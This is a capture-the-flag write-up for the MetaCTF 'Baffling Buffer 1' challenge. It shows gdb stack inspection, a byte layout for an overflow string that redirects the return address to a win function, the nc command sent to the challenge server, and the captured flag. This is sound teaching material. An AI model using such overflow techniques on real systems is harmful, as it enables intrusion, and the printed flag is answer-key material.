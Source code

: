 # Baffling Buffer 1

The following is a walk-through of a problem taken from [MetaCTF](https://metactf.com/) CyberGames 2020. I have no idea how long their server will keep hosting this problem. No copyright infringement is intended.

## Problem

After pointing out the initial issue, the developers issued a new update on the login service and restarted it at `host1.metaproblems.com 5151`. Looking at the [binary](bb1) and [source code](bb1.c), you discovered that this code is still vulnerable.

## Solution

### Examining the Stack Layout

The C code is fairly simple. If the user enters `"Sup3rs3cr3tC0de"`, then `"Access granted!"` is printed. `"Invalid auth."` is supposed to be printed for any other inputs. This, however, is not the flag we are looking for. It appears from the code that if the function `win` were to somehow be executed, then the flag would be printed.

As the name suggests, the function `vuln` has a buffer overflow vulnerability due to it's use of the notoriously dangerous `gets`. We can get a better understanding of the stack layout by using GNU debugger.

```sh
chmod u+x bb1
gdb --quiet bb1
```

After executing `break vuln` and `run`, the program will run until it hits the breakpoint in `vuln`.

```txt
(gdb) break vuln
Breakpoint 1 at 0x401190
(gdb) run
Starting program: [redacted]

Breakpoint 1, 0x0000000000401190 in vuln ()
```

The output of `backtrace` shows where execution left off in each function. How do programs remember where each function left off? Every time `f` calls `g`, `f` pushes its "where I left off" address to the stack before jumping to `g`.

```txt
(gdb) backtrace
#0  0x0000000000401190 in vuln ()
#1  0x0000000000401238 in main ()
```

The output of `x/5i vuln` shows an assembler code dump of the first 5 instructions of `vuln` and also shows an arrow pointing at the next instruction to be executed. The next instruction `sub $0x30,%rsp` is for allocating 48 bytes on the stack for `char buf[48]`.

```txt
(gdb) x/5i vuln
   0x40118c <vuln>:     push   %rbp
   0x40118d <vuln+1>:   mov    %rsp,%rbp
=> 0x401190 <vuln+4>:   sub    $0x30,%rsp
   0x401194 <vuln+8>:   lea    0xe7b(%rip),%rdi        # 0x402016
   0x40119b <vuln+15>:  callq  0x401030 <puts@plt>
```

The output of `x/2a $rsp` shows two address-width (8 bytes each) values on the top of the stack. Since `push %rbp` was the most recent stack operation, the saved value of `%rpb` resides on the top of the stack. Next comes the address `0x401238` which is the same address we saw in `backtrace`.

```txt
(gdb) x/2a $rsp
0x7fffffffdba0: 0x7fffffffdbb0  0x401238 <main+74>
```

Using `print win` is one of **many** ways to obtain the address of `win`. The goal of our attack will be to overwrite the return address `0x401238` with `0x401172` so that control goes to `win` instead of back to `main`.

```txt
(gdb) print win
$1 = {<text variable, no debug info>} 0x401172 <win>
```

### Crafting the Attack String

We have located the region of memory that needs to be overwritten. A couple of considerations must be made for the attack string.

1. The string must start with the access code, otherwise `exit(-1)` will be executed and the attack will fail.
2. Memory addresses are 8 bytes, stored in little endian. This means the lowest bytes must be printed out first.

Here is a table that describes all of the contents of the attack string.

| #    | Bytes | Contents                              |
| :--- | :---- | :------------------------------------ |
| 1    | 16    | `"Sup3rs3cr3tC0de"`, ends with `NUL`  |
| 2    | 32    | Padding, any character sequence       |
| 3    | 8     | `0x00007fffffffde90` in little endian |
| 4    | 8     | `0x0000000000401172` in little endian |
| 5    | 1     | Line feed, optional\*                 |

The string that needs to be typed in contains unprintable characters. Therefore, I created a small C program [`mal.c`](mal.c) that outputs the necessary string. \*Recall that `gets` reads input until newline or EOF is encountered. If it is going to be piped into `bb1`, then printing line feed is required. If it is first redirected to a file and then in a separate command redirected to `bb1`, then EOF is implicit. The latter should be preferred.

```sh
gcc mal.c -o mal              # compile mal.c
./mal > attack                # save the attack string in a file
echo 'dummy flag' > flag.txt  # dummy flag
./bb1 < attack                # run bb1 with attack string input
```

This did not work locally on my machine. Running it with `gdb` told me that `flag.txt` did not exist. I suspect this is some kind of binary compatibility issue. However, this did work on the real problem server which is good enough.

```sh
nc host1.metaproblems.com 5151 < attack
```

```txt
Enter the access code:
Access granted!
MetaCTF{c_strings_are_the_best_strings}
```

The flag has been captured! I hope you enjoyed this demo.

🚩

